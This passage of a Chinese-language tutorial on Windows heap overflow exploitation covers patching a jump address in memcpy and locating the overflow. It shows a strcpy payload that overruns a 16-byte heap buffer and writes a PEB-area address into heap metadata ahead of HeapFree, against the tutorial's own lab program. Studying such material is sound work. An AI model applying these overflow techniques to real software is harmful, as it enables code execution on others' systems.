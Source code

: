 ```
        exit(0);
 }

```

编译运行，运气好的直接就能跑，不过一般会如下图：

![enter image description here](http://drops.javaweb.org/uploads/images/f79da57ab2dcd265121cbc513f0033b30cbda296.jpg)

显示为：401005（0x00401005），然后修改代码中：

```
memcpy(c,"\x00\x10\x40\x00",4);

```

改成

```
memcpy(c,"\x05\x10\x40\x00",4);     

```

重新编译运行即可，成功后如下图：

![enter image description here](http://drops.javaweb.org/uploads/images/39ebd6d72a69668ca0e9fe9f1f048ea08cfa2f42.jpg)

然后就可以开始正文了。

0x03 溢出的位置
----------

* * *

之前我们给a从堆里分配了0x10即16个字节的空间

```
a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

```

因此

```
strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x20\xf0\xfd\x7f");

```

发生了溢出。

0x04 溢出前发生了什么
-------------

* * *

```
HeapFree(hHeap,0,b);

```

